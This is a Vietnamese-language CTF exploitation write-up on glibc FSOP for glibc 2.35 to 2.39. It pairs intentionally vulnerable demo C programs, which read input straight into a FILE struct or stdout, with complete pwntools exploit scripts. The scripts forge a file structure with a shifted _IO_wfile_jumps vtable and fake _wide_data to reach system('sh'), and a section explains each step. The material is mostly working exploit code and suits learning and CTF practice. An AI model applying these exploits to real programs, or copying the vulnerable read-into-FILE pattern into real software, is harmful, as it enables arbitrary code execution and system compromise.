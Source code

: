 <details>
<summary><strong>Description</strong></summary>
<p>

Overwrite file struct but stricter (no win or heap leak, libc leak is required), more useful in CTFs
> Test successfully in `glibc 2.35`, `2.38`, `2.39` (same code path)

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://aneii11.github.io/p/fsop-code-execution/#to-do
- https://niftic.ca/posts/fsop/#_io_wdoallocbuf43

</p>
</details>

### Overwrite file struct (in heap)

<details>
<summary><strong>POC</strong></summary>
<p>

## Demo code C

Chỉ cần compile theo hướng dẫn của shogun (tùy theo glibc version):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    
    printf("libc leak: %p\n", stdout);

    printf("file pointer leak: %p\n", fp);

    printf("overwrite file struct: ");
    read(0, fp, 0xE8);

    buf = malloc(0x10);
    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho libc leak và file pointer address, không có hàm `win` và size input bé hơn, mục đích là để merge 2 buffer vào thành một.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 200
b *main + 243
b *_IO_wdoallocbuf
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"pointer leak: ")
fileptr = int(p.recvline(), 16)
print(hex(fileptr))

system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = fileptr + 0x50
fp._wide_data = fileptr
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)

p.sendafter(b"struct: ", payload)

p.interactive()
```

<mark>Với các phiên bản khác chỉ cần thay đổi đoạn tính toán `libc_base`</mark>.

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

Tương tự như trước, code path của exploit này vẫn là target `_IO_wfile_overflow` -> `_IO_wdoallocbuf` -> `_IO_WDOALLOCATE`. fake vtable và `_wide_data` về buffer mà mình kiểm soát.

## Call `_IO_wfile_overflow`

Exploit shift table đi sao cho thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_overflow`:

```
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
```

## Call `_IO_wdoallocbuf`

Exploit vẫn dùng flag như cũ, để bypass qua các `if` trong source code. Lợi dụng thêm 4 bytes sau của `flag` để tạo thành strings `???..??||sh\x00` thuận tiện cho việc exploit (I'll talk about this later) (có thể thay thành `???..??;sh;` vẫn được).

```
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
```

## Call `_IO_WDOALLOCATE`

After all requires are met, now let's see inside the function `_IO_wdoallocbuf`:

![](attachments/image07.png)

Our goals is to call `_IO_WDOALLOCATE (fp)` (as it will).

![](attachments/image08.png)

Khi thực hiện gọi hàm, chú ý đến 2 câu instructions này

```
mov    rax, qword ptr [rax + 0xe0]
call   qword ptr [rax + 0x68]
```

![](attachments/image09.png)

Khi nhìn trong debug, ta thấy `rax` trỏ vào `file pointer`. 2 intrustions kia thực hiện gọi hàm qua `_wide_data->_wide_vtable`

Đầu tiên sẽ gán `rax` = value được lưu `[rax + 0xe0]`, là giá trị mà exploit đã fake đằng sau `bytes(fp)`:

```
payload = bytes(fp) + p64(fileptr + 0x10 - 0x68)
```

Sau đó sẽ gọi hàm được lưu trong `[rax + 0x68]` hay chính xác hơn là ở `fileptr + 0x10`. Ở `fileptr + 0x10` là vị trí của `_IO_read_end`, thứ mà ta đã gán sang `system` address:

```
fp._IO_read_end = system
```

![](attachments/image10.png)

Và `rdi` lúc này cũng đang trỏ vào `flag`, thứ hiện có giá trị là:

![](attachments/image11.png)

Sẽ gọi `system("sh")` và thành công chiếm shell.

</p>
</details>

### Overwrite `stdout` (in libc)

> Chỉ là thay đổi `fileptr` sang địa chỉ của `stdout` trong `glibc`, khá dễ hiểu trong trường hợp ta có thể leak libc

<details>
<summary><strong>POC</strong></summary>
<p>

## Demo code C

Compile theo shogun

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("libc leak: %p\n", stdout);
    read(0, stdout, 0xE8);
    puts("trigger");

    return 0;
}
```

## Demo exploit

Compile trên local (`wsl2 ubuntu 22.04.5 LTS`) với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 123
b *_IO_wdoallocbuf
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
system = libc_base + libc.symbols['system']
fp = FileStructure()
fp.flags = 0xfbad2484 + (u32(b"||sh") << 32)
fp._IO_read_end = system
fp._lock = _IO_2_1_stdout_ + 0x50
fp._wide_data = _IO_2_1_stdout_
fp.vtable = libc_base  + libc.symbols['_IO_wfile_jumps'] - 0x20
payload = bytes(fp) + p64(_IO_2_1_stdout_ + 0x10 - 0x68)

p.send(payload)

p.interactive()
```

<mark>Với các bản glibc khác chỉ cần thay đổi đoạn tính toán libc base</mark>.

</p>
</details>

<details>
<summary><strong>Attention</strong></summary>
<p>

Ta vẫn phải lưu ý điều kiện của giá trị `_lock`: trỏ vào vùng có write permission và có null value.
Sau một hồi debug, mình nhận thấy ở `_IO_backup_base` (offset `0x50`) thường có value 0, nên quyết định lấy giá trị này (thật ra nếu ta có thể ghi đè file struct thì đặt ở offset nào cũng thoải mái).

Tuy nhiên có thể đổi sang vùng khác để an toàn hơn (just in case), trên file struct nằm trên heap region thì nhiều vô kể, còn nếu nằm trên libc như `stdout` thì tùy cơ ứng biến.

</p>
</details>